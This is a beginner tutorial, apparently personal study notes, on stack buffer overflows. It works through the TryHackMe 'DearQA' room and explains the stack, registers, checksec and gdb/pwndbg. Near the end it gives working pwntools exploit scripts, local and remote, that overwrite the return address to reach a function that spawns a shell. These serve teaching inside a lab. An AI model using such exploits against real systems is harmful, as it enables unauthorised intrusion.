2024-12-26 17:43

Link: [Buffer Overflow](Buffer%20Overflow.md)

Status: **Need to fix formatting for list sections**

Tags: #BOF #THM #OSCP 
# Understanding Buffer Overflow: A Case Study with the  TryHackMe Room'DearQA'

## Welcome

Welcome to this guide, which is my attempt to bring together the lessons, insights, and experiences I've gathered over the past few months. My goal is to create a resource that makes diving into topics like Capture the Flag (CTF) competitions, exploit scripting, binary exploitation, and reverse engineering feel a little less intimidating—especially for those, like me, who come from backgrounds with little or no prior experience in computer science.

This guide is not meant to be exhaustive or definitive. Instead, I hope it serves as a helpful introduction to what can often feel like a complex and elusive subject for beginners.

We’ll start by exploring simplified versions of key computer science concepts to lay a foundation. Then, we’ll apply these ideas in a case study focused on solving the TryHackMe room "DearQA" using a stack buffer overflow exploit. Along the way, I’ll revisit and expand on the initial concepts to help you build a more holistic understanding of the topic as we progress.

Task files for this tutorial can be downloaded at: https://tryhackme.com/r/room/dearqa

---
# Core Dump: A Crash Course in Concepts

## Program Execution Flow

To simplify the idea of a program's execution flow, think about a marble run track. 


The more intricate ones can do some pretty cool things with "switch and response" or "chain reaction" type engineering. Possibly varying the path a marble is guided by weight, speed,  or even the current state of the track's features after other marbles have already gone down the track. Some even have elevators that can re-orient a marble's position on it's journey to the end. 



Ultimately though, the marble's journey reaches some sort of destination. 

A simpler way to understand execution flow is to think of it like a river. It starts at a source and flows steadily in one main direction. Along the way, it might branch into smaller streams or take diversions, either naturally or through human intervention, before continuing toward its destination—unless, of course, it’s intentionally redirected for another purpose. Think of examples like the Chicago River reversal in 1900, the Yellow River diversions in China, or the Roman siphon aqueducts, where the flow was deliberately altered to achieve a specific goal.


I'll stop "damming the flow" of this tutorial with the analogies soon.

Program execution flow as a "watershed" model.



Above is just meant to be a simple illustration of how a program's "flow" of execution can be conceptualized as a river running it's course. Okay, on to deeper waters. 

## Behind The Screens: Low-Bandwidth Edition

### Brains of the Operand:

The CPU and main memory work much like the human brain:

- **CPU (Control Unit, ALU, Registers):** Acts as the brain’s prefrontal cortex and working memory, handling decisions, calculations, and immediate tasks. Registers are like fleeting thoughts, while the ALU handles logic and reasoning.
- **Main Memory:** Functions as short-term memory, temporarily holding data for quick access. Within main memory, there are different regions, such as the stack (like a to-do list, organizing tasks and remembering what's in progress) and the heap (storing information dynamically for later use, similar to long-term memory).
- **System Buses:** Like neural pathways, they carry signals and information between the CPU, memory, and other components, ensuring smooth communication.

Just as the brain relies on clear pathways to think and act efficiently, the CPU, memory, and system buses must work in harmony. Overloading any part can cause weird things to happen.




### What Registers We'll Be Emphasizing

- `rbp` - base pointer; think "floor"
- `rsp` - stack pointer; think "ceiling"
- `rip` -  instruction pointer; think "where to next?"

### Visualizing the Stack

Stack Structure Simplified:




### What is a "*buffer*"?

The stack itself is technically one big "buffer" - a temporary storage place in memory.

In the context of a function being called inside a program:
	A function has its own set of variables (tools to do its job), and these variables are given temporary memory space on the stack (a workspace). This memory space is called a "buffer" and exists within the function's stack frame (a local work area). When the function finishes its task, the memory allocated for these variables (the workspace) is released, meaning it can be overwritten and reused later by other functions as needed.

How a function's "buffer" is allocated on the stack:



---
## Case Study: The TryHackMe Room "DearQA"

### Prologue: Orientation

What is an ELF?
	`ELF`: Executable and Linkable File. It's a binary, object-file, shared library or core dump. 

Looking at program specs with `file`:


- **64-bit architecture** - binary is compiled for a 64-bit processor architecture, such as x86-64.
- **dynamically linked** - The binary depends on shared libraries (such as libc) at runtime - i.e. doesn't have all the code it requires within itself.
- **not stripped** - The binary still contains debugging symbols and extra metadata (e.g., function names, variable names, and source code references).

Checking for security features with `checksec`:



***What does this mean?***

- **Arch:** 64-bit (little endian)
- **RELRO:** None;
	RELRO stands for "*Relocation Read-Only*", which is a security feature in computer systems that makes certain sections of an executable file (particularly the Global Offset Table - GOT) read-only, preventing attackers from overwriting memory addresses to exploit vulnerabilities in a program.
- **Canaries:** None;
	Stack canaries or security cookies are tell-tale values added to binaries during compilation to protect critical stack values like the Return Pointer against buffer overflow attacks.
- **NX:** None;
	Non-executable stack (NX) is a virtual memory protection mechanism to block shell code injection from executing on the stack by restricting a particular memory and implementing the NX bit. In Windows-world it's called Data Execution Prevention (DEP). 
- **PIE:** None;
	Position Independent Executables (PIE) are an output of the hardened package build process. A PIE binary and all of its dependencies are loaded into random locations within virtual memory each time the application is executed. This makes Return Oriented Programming (ROP) attacks much more difficult to execute reliably.
- **Stack:** Executable;
	This means that the stack has execute permissions enabled by default, allowing code to run directly from the stack, if no protections, like NX (Non-Executable), are enforced.
- **RWX:** Present;
	This indicates that the program has *at least one memory segment* with:
	read (`R`), write (`W`), and execute (`X`) permissions enabled. 
	This is generally considered a security vulnerability because it allows for the possibility of self-modifying code or arbitrary code execution....the stuff we want to do : )
- **Stripped:** No;
	The binary still contains debugging symbols and extra metadata (e.g., function names, variable names, and source code references). These symbols make it easier to analyze/ reverse-engineer the program.


---
## Testing the Waters: First Look

Running the program to see what it does:



Giving it my name as user input:



Seems pretty simple -this program takes user input and returns it in a formatted string that says:
*"Hello: <user_name>"*

---
## Analysis: Phase 1
### Symbols in the file: Becoming an Oracle

The `strings` command is a tool in Linux (and similar operating systems) that helps you find and display readable text (like words, sentences, or numbers) in a file, especially files that aren't plain text, like binaries or executables. It scans the file for sequences of printable characters and shows them to you.

Running `strings` to see if there's any "leaks of useful info" like function names, system calls, etc...



We'll come back to some of these later.
For now, I want to note that `main` is a common function name and `vuln` seems like an obvious clue from the author of this challenge - maybe a another function that is vulnerable? 

`nm` is a common Linux utility, often used as a debugging tool - it displays information about symbols within a given object file, executable, or library.



### Useful Addresses

`objdump` is another utility common on Linux systems for displaying various information about object files
- here we are using the `-t` switch to dump symbol information.

Dumping the addresses for the functions we found with `strings` in case we need them later:



`main` is located at memory address `0x00000000004006c3` (a 64-bit address), which we'll shorten to `0x4006c3` to make things a little easier. 

`vuln` is located at memory address `0x400686` (shortened version)

Also, notice they both come from the `.text` (i.e. executable) section of the program's code. 

### Disassembly

Disassembly is the process of translating a program's low-level machine code (binary instructions that the CPU understands) into a more human-readable format called assembly language. This allows you to see exactly what the program is doing step by step.

`objdump` can also act as a command-line disassembler.

Below we disassemble the `.text` section of our program (targeting where our functions are stored) with the following switches:
- `-d` : disassemble
- `-M` : options (we specify intel syntax for the disassembler)
- `--section=` : identified the `.text` section to be disassembled - where "vuln" and "main" exist
- `--start-address=` : identified the start address of the "vuln" function found with `nm` or `objdump` 
	- chose this address over `main` because it's lower (**686** vs **6c3**).
	- did not identify a `--stop-address` (i.e. the end of `main`) because we don't know it yet.


`.text` *section disassembled* with `objdump`:



This screen shot only captures `vuln` and `main` to save space, but the command will return more info. 

---
## Analysis: Phase 2
### Ghidra CodeBrowser: A Useful Tool

Pseudo code in Ghidra is a simplified, high-level representation of a program's functionality. It takes the low-level assembly code (harder to read) and attempts to translate it into something closer to a programming language like C. This makes it much easier to understand what a program is doing.


---Break for memes---


---Back to work---
#### Ghidra's Pseudo C Code of `main` Function:



#### Breakdown of `main()`
`char local_28[32]` is a "ghidra-ism" representing a declaration of a local variable on the stack. 

- `local_28`  means the variable starts 40 bytes (0x20 in hex) below the `rbp` address on the stack.
- `[32]` tells you that the buffer occupies 32 contiguous bytes in the stack memory.
- What about the other 8 bytes? --> Ghidra is likely showing extra padding (unused memory) that’s automatically added to keep everything properly aligned for the system’s architecture.

`scanf` is a function that reads formatted input from the standard input stream (typically the keyboard). It allows you to take input from the user and store it in variables.

- ***Note***: The `scanf` function is considered insecure because it doesn’t automatically check if the user’s input will fit in the memory space the program has reserved for it --> (important)
	i.e. If a user enters a string that’s too long, it can "overflow" into other parts of memory, potentially causing the program to crash or even be controlled by an attacker. It’s like trying to pour a gallon of water into a small glass.
	
So our simple program is vulnerable to buffer overflow due to a lack of user input validation. 

- ***Note***: no reference to `vuln` in `main` (i.e. no clear connection programmed into the `main` function - never gets called throughout `main` function's execution)

#### Ghidra's Pseudo C Code of `vuln` Function:



#### Breakdown of `vuln()`
We can see that `vuln` executes the system call `execve` to open a shell (`"/bin/bash"`).

 What is a "*System Call*"?

A *system call* is like a direct request from a program to the operating system (OS) to perform a task that the program itself doesn’t have permission to handle directly. This could be tasks like reading from a file, accessing hardware, or, in this case, launching another program. Think of it as the program asking the OS for help with specific jobs.

 What is `execve`?

`execve` is a specific system call that allows a program to run another program. In the context of the `vuln` function here, `execve` is used to execute another program - the `/bin/bash` shell.

So our goal is control - figure out how to get the program to "flow" from `main` to `vuln`, which should open a shell for us. 

How? - Through the `scanf` overflow vulnerability that we identified. 

---
## Analysis: Phase 3

### Working with pwndbg

`pwndbg` is a plug-in for the command-line debugger known as GDB. 

Once installed just run your program with the `gdb` command. 



A "breakpoint" is essentially an address or instruction in the program where we want to pause execution to see what's happening at that point in flow of execution. 

Set a breakpoint at main and run the program: 
	`break main` - or - `break *0x00000000004006c3` - or - `b *0x4006c3`



Here the `rip` is pointing to the next instruction, `push rbp` - this will mark the base of our function's stack frame. More on what that means later. 

### "Stepping" through the program

**Stepping through a program** means executing a program one step at a time to closely observe what it’s doing. This lets you see how each instruction or line of code is executed, how the CPU registers and memory change, and how the program flows. It's a way to carefully analyze the program's behavior, identify bugs, or understand vulnerabilities.

For example, you can use commands like `step` to move through source code instructions or `stepi` to step through individual assembly instructions one at a time, giving you a detailed view of what's happening under the hood.

Useful commands:

1. **`step` (or `s`):**
Executes the next line of code at the source level (if available).
If the current line calls a function, it will "step into" the function, stopping at its first instruction.

2. **`stepi` (or `si`):**
 Executes the next single instruction at the machine code level.
Useful for stepping through assembly instructions, especially when debugging binaries without source code.

3. **`ni` (Next Instruction):**
Executes the next instruction but **does not step into** function calls.
 Instead, it treats the function call as a single step and stops at the next instruction after the call.
 
 4. **`si` (Step Instruction):**
Executes the next instruction and steps into function calls if one is encountered.
Similar to `stepi`, but emphasizes stepping into function-level details.


Use `step` command to show the state of the program at the next instruction.

**Step 2**:



Here, `rip` is pointing to the instruction `mov rbp,rsp`, which sets the base pointer (`rbp`) to the same location as the stack pointer (`rsp`). This aligns them so the base pointer can help organize and manage the current stack frame.

**Step 3**:



Here `rip` is pointing to `sub  rsp,0x20` - this will allocate 32 bytes of space on our stack frame.

$$
	0x20 (Hexadecimal) = 32 (Decimal)
$$

### Allocating the Buffer: Pre User Input

`pwndbg` disassembly of main function using `disassemble main` at step 3:



Highlighted lines above are where `rip` points to the step which will create our "buffer" - the instruction at the "relative address" <main+4>
	i.e. the `rbp` and `rsp` are still collocated on in the stack frame here until this step is executed

 

***making some space on the stack***


This is a simplified representation of what's happening when steps 1-3 are executed in our function.


Using `info registers` is another way we can see state of the registers at various points of execution.


Below is what the registers look like with `rip` pointing the instruction at <main+4> 
	i.e. after `push  rbp` and `mov  rbp,rsp`, but prior to executing `sub  rsp,0x20` (buffer allocation):



Notice that `rbp` and `rsp` are collocated at the same address (ending in ***dc10***) 
	- accomplished by executing "step 2" (*<main+1>*) of `main` function (`mov  rbp,rsp`)


This is `info registers` after executing "step 3" `sub rsp,0x20` (allocating buffer) - prior to the user providing input.
	`b *main+8` or `b 0x4006cb`



Notice that `rsp` is now offset by **32 bytes**

**Hex math**:
$$
		 dc10 - dbf0 = 20
$$

**Decimal math**:
$$
		 56336 – 56304 = 32
$$

---

## Break for Learnin'

### Stack Behavior and Buffer Overflow Explanation:

As we’ve discussed, the stack is a section of memory used for temporary storage of variables local to a function—think of it like a workspace for the function.

The stack works on a 'Last In, First Out' (**LIFO**) principle. Imagine a stack of dishes: if you have to move them one at a time, it seems intuitive to take the top dish off first, right?

Here’s where it can get a bit tricky, and I hope this explanation saves you some confusion.

When people say `rsp` points to the "top" of the stack, they don’t mean the highest address in memory. Instead, it means the **most current** location on the stack, where the last item was pushed. Since `rsp` updates constantly as items are added or removed, the "top" of the stack is always changing. If the function runs normally and reaches the `ret` instruction, `rsp` should be pointing to the return address, so the program knows where to go next.




So, the stack grows downward (from high to low addresses), which is counterintuitive enough because we tend to visualize "upward progression" on a vertical axis where the lowest point is "grounded".  Then to add to the confusion, the base (`rbp`) is at the highest address, and the top (`rsp`) is sometimes at the bottom. Utter Nonsense...


Moving on...

**Note**: here I've used simplified pseudo-addresses for the sake of explanation only 
		(i.e. `0x102` = **higher** address and `0x70` = **lower** address)


1. **Buffer Allocation**:
    
     When space is allocated on the stack for local variables (like `local_28`), it is allocated *downward*: 
	**higher** --> **lower** addresses (i.e. `0x102` --> `0x70` = **32 bytes**)

	Stack frame prior to user input:

	


2. **Writing User Input to the Buffer**:
    
     When user input is written into the buffer (as with `scanf`), it is written *upward*:
	    **lower** --> **higher** addresses (i.e. `0x70` --> `0x102`)


	


3. **Overflow Behavior**:
	    If the user's input exceeds the allocated space (i.e. **32 bytes** as in our example), and there's no security in place to validate the length of the input , it will overflow into the memory space immediately following the buffer's intended boundary, which is the `rbp`.
		    For example, if the user provides **33 bytes** of input, the first **32 bytes** will fill the **buffer** and the **33rd byte** will overwrite the **first byte** of the saved `rbp` address on the stack.


	


#### ***Cup Analogy***:

- **RBP is the Floor**: The `rbp` acts as the "floor" that defines the base of the current function's stack frame. It serves as a reference point for accessing local variables (like the buffer) and saved data (like the return address).
    
- **Buffer as the Cup**: The buffer is like a "cup" allocated below the `rbp`, designed to hold a specific amount of user data (32 bytes in this case).
    
- **Overflow = Spilling Cup**: If you pour too much data (more than 32 bytes), the excess spills beyond the cup (buffer) and starts  spilling onto (overwriting) the floor (the `rbp`) and potentially other structures beyond the `rbp`.


Stack frame post over flow input:



Now, you might be thinking: "okay, we overwrote the base pointer, but the return address is still intact, so wouldn’t the program just exit the function and return as expected?"

Good question, but the answer is no. The `ret` instruction falters because `rsp` (the stack pointer) has been corrupted and now points to an invalid memory location. This is like irrecoverable spatial disorientation for the program. 

### **"Helo-Chopters"**

***Analogy, yay!***
Imagine a pilot flying at night, over glassy water that reflects the stars and the clouds like a mirror. In these situations, due to a lack of orienting visual references, pilots rely on instruments to guide them in maintaining safe flight profiles. Suddenly their instruments malfunction and they have to rely completely on what they can see. 
There is a common phenomenon in this type of environment known as a "false horizon". The pilot may see what looks like a "horizon" (which in reality could just be a reflection or a cloud bank, etc) and then orients themselves toward this "horizon". In this scenario, without reliable instruments for the pilots to receive confirmation feedback on their orientation, they will inevitably crash. This is called controlled flight into terrain (**CFIT**) and it happens because the pilot flies the aircraft unknowingly toward an invalid "horizon."

Normally the `rsp` is incrementally updated as the stack grows and shrinks during execution, and by the time the function reaches the `ret` instruction, `rsp` should point to the return address (the actual horizon).


#### More On The Stack Frame

A **stack frame** in this context refers to the section of the stack used to store data for a single function call - it typically includes:

1. **Return Address**:
    
    - The address where the program should return after the function completes.
    
2. **Saved RBP**:
    
    - The previous base pointer (frame pointer), which helps restore the caller's stack frame after the function finishes.
    
3. **Local Variables**:
    
    - Space allocated for local variables used within the function (i.e. the buffer)
    
4. **Function Arguments** (if passed on the stack, though not in this example):
    
    - If there are more arguments than can fit in registers, they are pushed onto the stack.

In this specific program:

- The **stack frame** spans from:
	low address at `0x7fffffffdbf0` --> high address at `0x7fffffffdc28` 

Current stack frame layout after executing instruction at <main+4> (`sub rsp,0x20`)



Here you can see some things we've talked about:
- 	`rsp` - points to ***dbf0*** (beginning of buffer - last thing we added)
- 	`rbp` - points to ***dc10***
- 	Return address = ***dc28*** 
- 	The rest of the data you see in the stack (*right side*), for now, you can think of as left over data that has yet to be overwritten. 

Stack frame contents viewed '**1 byte**' at a time with `pwndbg`:



- `x/`: examine memory contents starting at specified address
- `72`: number of entries to display
- `b`: view memory in **bytes** (1 byte per entry)
- `x`: display in hex format

***Note***: The bytes appear in "reverse" order.  This is because Intel® architecture CPUs store data in "Little-endian" format. "Little-endian" format is a byte order wherein the least significant byte (or 'little end') of a multibyte data value is stored at the lowest memory address.

Let's try running the program with a breakpoint set at the point where we provide user input:
	`break *main+80` or `b * 0x400713`



Now let's look at the registers byte by byte:



That's my handle (in hex) stored in the buffer!

How many bytes away are we from reaching the `rbp` after the last byte of my handle?

Public math amongst yourselves...

---
## Exploitation

### **Fuzzing**

Filling the buffer with junk (fuzzing) to confirm it is vulnerable:

***Example with input ('A' * 32 + 'B' * 18)*** 
- This should fill the buffer with "A" - then start overwriting anything beyond that (i.e. the `rbp`) with "B"



Here's a closer look at the registers to confirm it worked:



Notice the buffer started at address ending in ***dbf0*** is filled with the "0x41" 
	 "0x41" = hexadecimal representation of "A"
The `rbp` at address ending in ***dc10*** is overwritten now with "0x42" 
	 "0x42" = hexadecimal representation of "B"
It even overwrites structures beyond the `rbp` - see address ending in ***dc20***

So we did it. We crashed the program. We sent the CPU on a wild goose chase for an invalid memory address. 
### **Redirection**

Now let's try something a little more fun - let's overwrite beyond the `rbp` with an address that actually exists in memory and makes the program go somewhere and do something useful.  

Remember the `vuln` function? It was at address  `0x400686` 

So let's set a breakpoint just prior to executing the `ret` instruction for `main` before we journey to `vuln` so we can verify that our address is being entered into the stack:



Now we're going to run our program with the following command that has our junk data and our destination (`vuln` at address `0x400686`):

```python
r <<< $(python3 -c "from struct import pack; import sys; sys.stdout.buffer.write(b'A' * 32 + b'B' * 8 + pack('<Q', 0x400686))")
```

First let's break that down:

 - **`r`**: Run the program in GDB.
 - **`<<<`**: Redirects the output of the Python script as input to the program.
- **`$(...)`**: Executes the command inside and substitutes its output.
 - **`python3 -c "..."`**: Runs the Python script provided as a string.
 - **`from struct import pack`**: Imports the `pack` function for binary data conversion.
 - **`import sys`**: Imports the `sys` module to write raw binary data.
 - **`b'A' * 32 + b'B' * 8`**: Generates padding of 32 `A`s and 8 `B`s.
 - **`pack('<Q', 0x400686)`**: Converts `0x400686` into 64-bit little-endian binary format.
 - **`sys.stdout.buffer.write(...)`**: Writes the crafted binary input directly to standard output.

### **Testing Our Redirection Input**

Now let's run it:



You can see here that our `rip` is pointing to the `ret` instruction. This instruction takes the value at the top of the stack (or where `rsp` is currently pointing --> `0x400686` in this example) and places it into the `rip` register. This tells the CPU to jump to that address and execute the instructions found there—in this case, the `vuln` function.

Take a closer look at the stack:




### **Recap:** 
Our `main` function has reached the end of its lifecycle (`ret`). Normally, the stack contains the following just before `ret`:

- The **saved `rbp`** (base pointer of the current stack frame).
- The **return address**, placed directly above the `rbp`, which tells the CPU where to go next after the function completes (in this case, back to `main`'s caller).

By providing overflow input, we:

1. Filled the buffer.
2. Overwrote the saved `rbp` with user-defined data (`B`s).
3. Overwrote the **return address** directly above `rbp` with the address of the `vuln` function (`0x400686`).

When `ret` is executed:

- It pops the value at the **top of the stack** (`rsp`)—which was moved "up the stack" by our overflow to an address  that contains some user-defined input - the address of our `vuln` function `0x400686`.
- The `rip` register is updated with this value, directing the CPU to jump to the `vuln` function.

So in theory, once we fully execute this input, allowing the program to run without breakpoints, the program should redirect the flow of execution to a function that was not originally supposed to be executed at all. 


### **Scripting our exploit**

So now what we want to do is write a script that will accomplish the same thing against a server running this vulnerable program. But first we'll craft it for local execution just to make sure it works as expected. Then we'll execute it remotely against the THM machine. 



#### Local Exploit Script:

This is what our local exploit script will look like using `pwntools` and python:

```python
#!/usr/bin/env python3
from pwn import *

# For Local Execution:
context.binary = binary = './dearqa'
elf = ELF(binary)
p = process(binary)  # Ensure you pass the binary name to process()

payload = b'A' * 32
payload += b'B' * 8  
payload += p64(0x400686)  # Use p64 for proper packing of the address

p.sendline(payload)

p.interactive()
```

 ##### ***breakdown***

 - **`#!/usr/bin/env python3`**: Specifies Python 3 as the interpreter for the script.
 - **`from pwn import *`**: Imports the `pwntools` library, which provides tools for binary exploitation.
 - **`context.binary = binary = './dearqa'`**: Sets the binary file (`./dearqa`) to be analyzed and run by the script.
 - **`elf = ELF(binary)`**: Loads the binary as an ELF object, allowing access to its symbols and sections.
 - **`p = process(binary)`**: Starts the binary (`./dearqa`) as a local process for interaction.
- **`payload = b'A' * 32`**: Creates the initial payload with 32 bytes of `A` to fill the buffer.
 - **`payload += b'B' * 8`**: Appends 8 bytes of `B` to overwrite the saved `rbp` in the stack.
 - **`payload += p64(0x400686)`**: Appends the packed address `0x400686` (i.e. `vuln` address) in 64-bit little-endian format to overwrite the return address.
 - **`p.sendline(payload)`**: Sends the crafted payload as input to the `dearqa` process.
 - **`p.interactive()`**: Switches to interactive mode, allowing direct interaction with the exploited process.
 
Seems to work - got a command prompt (`$`):



Now let's test it on the real thing.

#### Connect to THM Network

Connect to THM network via your openvpn config file: (`sudo openvpn You_User_Name.ovpn`)
Then navigate to https://tryhackme.com/r/room/dearqa - you should have already downloaded the binary from here.
Start the machine.



This will take approximately 60 seconds to load and give you the IP to the vulnerable machine on the THM network. 



Now we have the IP and the port the service is running on, so let's craft our remote exploit script.
#### Remote Exploit Script:

This is what our remote exploit will look like:

```python
#!/usr/bin/env python3
from pwn import *

host = '10.10.74.5'
port = 5700

p = remote(host, port)

payload = b'A' * 32
payload += b'B' * 8  
payload += p64(0x400686)  # Use p64 for proper packing of the address

p.sendline(payload)
p.interactive()
```

##### ***breakdown***
What's changed?
Directing our script to target a the binary running on a remote server instead of our local copy of the binary. 

 **`host = '10.10.74.5'`**: Specifies the IP address of the remote server where the vulnerable program is running.
 **`port = 5700`**: Specifies the port number on which the vulnerable program is listening for connections.
 **`p = remote(host, port)`**: Establishes a remote connection to the specified host and port, allowing interaction with the vulnerable program running on the remote server

Let's send it. 




Easy day. There's the flag. Hope that was helpful!
Now go be geniuses and make things do stuff....legally obviously. 


## Epilogue: Leave...Go on now...Ret!

Below you'll find some resources (in no particular order) that I think are very useful if you're interested in learning more about what we've covered here. Also I've listed some topics think about investigating further which would be helpful:
	1. Assembly language
	2. 'C' language
	3. Python
	4. Computer Architecture
	5. Return Oriented Programming


# Resources

## Cheat sheets:

https://www.eecis.udel.edu/~amer/CISC651/ASCII-Conversion-Chart.pdf

https://pwndbg.re/CheatSheet.pdf

## Book Learnin':

https://www.oreilly.com/library/view/the-shellcoders-handbook/9780470080238/

https://www.oreilly.com/library/view/computer-architecture/9781098182175/

## THM related rooms:

https://tryhackme.com/r/room/bufferoverflowprep

https://tryhackme.com/r/room/gatekeeper

https://tryhackme.com/r/room/introtopwntools

## Guides and Tutorials:

https://yuriygeorgiev.com/2024/02/19/x86-64-cpu-architecture-the-stack/

https://steflan-security.com/complete-guide-to-stack-buffer-overflow-oscp/

https://www.hoppersroppers.org/roadmap/training/pwning.html

https://nobinpegasus.github.io/blog/a-beginners-guide-to-pwntools/
## Docs:

https://docs.pwntools.com/en/stable/


